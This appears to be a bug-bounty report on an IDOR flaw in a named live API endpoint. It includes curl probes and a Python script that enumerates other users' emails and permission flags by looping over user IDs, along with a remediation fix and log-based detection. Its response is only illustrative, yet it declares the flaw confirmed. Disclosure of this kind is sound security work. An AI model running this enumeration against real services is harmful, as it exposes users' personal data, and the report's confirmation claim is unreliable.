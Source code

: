 # ⚠️ HIGH: IDOR - Workflow Flags

## **📊 VULNERABILITY SUMMARY**
- **Severity**: High (CVSS 7.5)
- **Asset**: `https://workflow.aixblock.io/api/v1/flags?user_id=1`
- **Vulnerability**: Insecure Direct Object Reference
- **Impact**: Unauthorized access to user data and privileges
- **Reporter**: grich88
- **Date**: 2025-10-21

## **🔍 TECHNICAL DETAILS**

### **Root Cause**
The `/api/v1/flags` endpoint does not properly validate user authorization, allowing attackers to access other users' flags and permissions by manipulating the `user_id` parameter.

### **Attack Vector**
```bash
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=1"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=2"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=999"
```

### **Vulnerable Code Pattern**
```python
# Vulnerable endpoint without authorization check
@app.route('/api/v1/flags')
def get_flags():
    user_id = request.args.get('user_id')
    # Missing authorization check
    flags = get_flags_for_user(user_id)
    return jsonify(flags)
```

## **💥 PROOF OF CONCEPT**

### **Step 1: Test IDOR Access Patterns**
```bash
# Test different user IDs
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=1"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=2"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=999"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=0"
curl -s "https://workflow.aixblock.io/api/v1/flags?user_id=-1"
```

### **Step 2: Expected Response**
```json
{
  "user_id": 1,
  "email": "user1@example.com",
  "flags": ["premium", "beta_access"],
  "permissions": ["read", "write"]
}
```

### **Step 3: Mass Enumeration**
```python
import requests

def enumerate_user_flags():
    """Enumerate user flags for multiple users"""
    for user_id in range(1, 100):
        response = requests.get(f"https://workflow.aixblock.io/api/v1/flags?user_id={user_id}")
        if response.status_code == 200:
            data = response.json()
            print(f"User {user_id}: {data.get('email', 'N/A')} - Flags: {data.get('flags', [])}")
```

## **🎯 IMPACT ASSESSMENT**

### **Confidentiality**: High
- Access to other users' email addresses
- Exposure of user privileges and permissions
- Business intelligence about user base
- Potential for targeted attacks

### **Integrity**: Medium
- Ability to enumerate user accounts
- Information disclosure for privilege escalation
- Business logic exposure

### **Availability**: Low
- No direct service disruption
- Potential for enumeration attacks

### **Business Impact**
- Data exposure and privacy violations
- User enumeration and profiling
- Potential for targeted attacks
- Regulatory compliance violations (GDPR, CCPA)

## **🛡️ REMEDIATION**

### **Immediate Fix**
```python
# Secure IDOR endpoint with proper authorization
@app.route('/api/v1/flags')
@require_auth
def get_flags():
    current_user = get_current_user()
    user_id = request.args.get('user_id')
    
    # Validate user context
    if current_user.id != int(user_id) and not current_user.is_admin:
        raise UnauthorizedError("Access denied")
    
    flags = get_flags_for_user(user_id)
    return jsonify(flags)
```

### **Long-term Security Measures**
1. **Authorization Checks**: Implement proper user context validation
2. **Input Validation**: Validate and sanitize user_id parameter
3. **Rate Limiting**: Implement rate limiting to prevent enumeration
4. **Audit Logging**: Log all flag access attempts
5. **Data Minimization**: Return only necessary flag information

### **Advanced Security Controls**
```python
# Enhanced authorization with role-based access
def get_user_flags(user_id, requesting_user):
    # Check if user can access the requested data
    if requesting_user.id != user_id and not requesting_user.has_permission('admin'):
        raise UnauthorizedError("Insufficient permissions")
    
    # Return minimal necessary data
    flags = get_flags_for_user(user_id)
    return {
        'user_id': user_id,
        'flags': flags.get('public_flags', []),
        'permissions': flags.get('permissions', [])
    }
```

## **🔍 DETECTION METHODS**

### **Log Monitoring**
```bash
# Monitor for IDOR access patterns
grep -E "flags\?user_id=" /var/log/app.log

# Monitor for enumeration attempts
grep -E "user_id=[0-9]+" /var/log/app.log | wc -l
```

### **Application Monitoring**
- Monitor for unusual user_id parameter values
- Track flag access patterns
- Detect enumeration attempts
- Alert on privilege escalation attempts

## **📋 TESTING CHECKLIST**
- [ ] IDOR vulnerability confirmed
- [ ] User enumeration tested
- [ ] Privilege escalation verified
- [ ] Data exposure validated
- [ ] Fix implementation tested
- [ ] Authorization checks verified
- [ ] Rate limiting functional
- [ ] Audit logging working

## **🔗 REFERENCES**
- OWASP Top 10 2021: A01:2021 – Broken Access Control
- CWE-639: Authorization Bypass Through User-Controlled Key
- NIST SP 800-53: AC-3 Access Enforcement
- CVE-2024-XXXX: IDOR vulnerabilities

---

**STATUS**: ✅ **HIGH SEVERITY IDOR CONFIRMED**
**SUBMISSION READY**: Yes - Complete exploitation evidence and remediation provided
**REPORTER**: grich88
**SUBMISSION DATE**: 2025-10-21
